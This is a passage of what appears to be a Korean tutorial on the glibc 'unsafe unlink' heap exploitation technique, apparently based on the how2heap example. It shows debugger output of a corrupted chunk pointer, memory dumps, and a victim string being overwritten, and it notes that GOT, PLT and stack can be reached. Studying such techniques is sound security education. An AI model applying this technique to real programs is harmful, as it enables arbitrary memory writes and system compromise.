 * free 후 chunk0_ptr이 0x602058로 overwrite 됐다.

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x90                 Freed                0x0           0x20ff1
Corrupt ?!

gdb-peda$ p chunk0_ptr
$1 = 0x602058
```

* chunk0_ptr(0x602070) 변수에 저장된 주소(0x602058)
* 즉, 0x602058 + 0x18 영역에 값을 쓸 수 있다면, chunk0_ptr에 저장된 주소 값을 변조할 수 있게 된다.
* 이로 인해 Stack, .got, .plt 영역에 접근하여 값을 변조할 수 있다.

```
gdb-peda$ x/24gx 0x0000000000602058
0x602058:	0x0000000000000000	0x00007ffff7dd2540
0x602068:	0x0000000000000000	0x00007fffffffe4f0 <- victim_string

gdb-peda$ x/gx &chunk0_ptr
0x602070 <chunk0_ptr>:	0x00007fffffffe4f0
```

* 전역변수 포인터(chunk0_ptr)에 입력 scanf로 입력받으면 해당 주소 값이 변조된다.

```
At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.
chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.
Original value: Hello!~
AAAAAAAA
New Value: AAAAAAAA
```

**References**  
<https://www.lazenca.net/display/TEC/unsafe+unlink>  
<https://github.com/shellphish/how2heap>
